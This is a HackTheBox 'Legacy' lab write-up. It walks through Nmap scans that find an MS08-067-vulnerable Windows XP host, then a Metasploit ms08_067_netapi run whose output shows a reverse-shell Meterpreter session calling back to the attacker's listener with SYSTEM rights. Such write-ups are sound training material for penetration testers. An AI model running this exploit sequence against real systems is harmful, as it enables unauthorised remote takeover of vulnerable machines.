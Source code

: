 # Hackthebox Legacy


Before we start I always reset the box, it is often that services have crashed or behaves in unintended ways after others have exploited them. And I do not want any spoilers that may have been left by others on the box.


## Recon

We perform our initial enumeration of the box using Nmap.

```
# Nmap 7.70 scan initiated Sun Oct 21 11:12:32 2018 as: nmap -v -sV -oA legacy_initial 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.038s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Microsoft Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 21 11:12:44 2018 -- 1 IP address (1 host up) scanned in 11.84 seconds
```

At he same time we start a more extensive scan scanning all tcp ports and services. This time this did not result in any additional findings.

We see that it is an old Windows XP box with SMB exposed. This gets me thinking of the good old ms08-067 exploit.

Let's do a vulnscan using Nmap to see if it is vulnerable

```
Nmap scan report for 10.10.10.4
Host is up (0.037s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary                                                                                                    
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

NSE: Script Post-scanning.
Initiating NSE at 11:18
Completed NSE at 11:18, 0.00s elapsed
Initiating NSE at 11:18
Completed NSE at 11:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 16.62 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

Bingo!

## Initial Compromise

Let's use Metasploit to see if we can get a quick win.

```
msf > search ms08-067

Matching Modules
================

   Name                                 Disclosure Date  Rank   Description
   ----                                 ---------------  ----   -----------
   exploit/windows/smb/ms08_067_netapi  2008-10-28       great  MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

```
msf exploit(windows/smb/ms08_067_netapi) > exploit 

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.4:1031) at 2018-10-21 11:27:11 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

As the service runs as system we get a system shell.

This was a quick one.